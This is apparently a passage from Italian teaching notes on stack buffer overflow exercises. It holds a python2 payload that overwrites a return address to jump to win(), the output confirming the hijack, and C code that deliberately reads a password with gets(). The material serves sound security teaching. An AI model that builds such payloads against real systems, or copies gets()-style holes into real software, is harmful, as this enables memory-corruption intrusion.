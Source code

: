 L'indirizzo è il seguente: `0x0804846b`.

In ambiente **little endian**, l’indirizzo `0x0804846b` va inserito come byte sequence `\x6b\x84\x04\x08`.

## Creazione del Payload

Costruiamo una stringa che:
1. Contiene 10 byte di padding (ad esempio `"A"*10`).
2. Subito dopo, i 4 byte dell’indirizzo di `win()` in ordine little endian.

Esempio:

```bash
python2 -c 'print("A"*10 + "\x6b\x84\x04\x08")' | ./esercizio3
```

### Output

```
Chiamo l'indirizzo della funzione, salto a 0x0804846b
Hai modificato correttamente il flusso di esecuzione
```

# Esercizio 3.1 – Forzare l'invocazione di una funzione inesistente

## Codice C
```c
#include <stdio.h>
#include <string.h>
#include <stdbool.h>

bool login(){
    char password[X];
    printf("Inserisci la parola d'ordine: \n");
    gets(password);
    return strcmp(password, "segreto") == 0;
}

void accedi(){
    printf("Hai eseguito l'accesso correttamente\n");
}

void impossibile(){
    printf("Funzione mai invocata!\n");
}

int main(int argc, char* argv[]){
    bool autorizzato;

    autorizzato = login();

    if (autorizzato)
        accedi();
    else
        printf("Spiacente, parola d'ordine errata. Accesso negato\r\n");

    return 0;
}
```
